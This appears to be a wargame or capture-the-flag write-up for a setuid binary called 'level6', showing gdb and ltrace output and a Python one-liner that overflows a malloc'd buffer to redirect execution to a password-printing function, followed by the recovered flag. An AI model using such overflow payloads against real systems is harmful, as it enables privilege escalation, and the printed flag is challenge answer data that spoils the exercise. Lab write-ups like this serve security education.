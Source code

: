 ```sh
$> ls -l ~
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

We have to call `n()` to retrieve the password.  
To do that, we can use `strcpy()` to overflow the malloc'ed buffer and change the return address to `n()` instead of `m()`.

```sh
$> gdb -q ./level6
(gdb) i func n
[...]
0x08048454  n
```

To know where to find the return address we'll change, we need to access the buffer. Thanks to `ltrace`, we know the address of the malloc'ed buffer

```sh
$> ltrace ./level
malloc(64) = 0x0804a008
[...]
```

After some tweaks, we find that the return address has an offset of `72 bytes` from the start of the buffer.

That's all we need to create the payload:

```sh
$> ./level6 $(python -c 'print("\x90"*72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
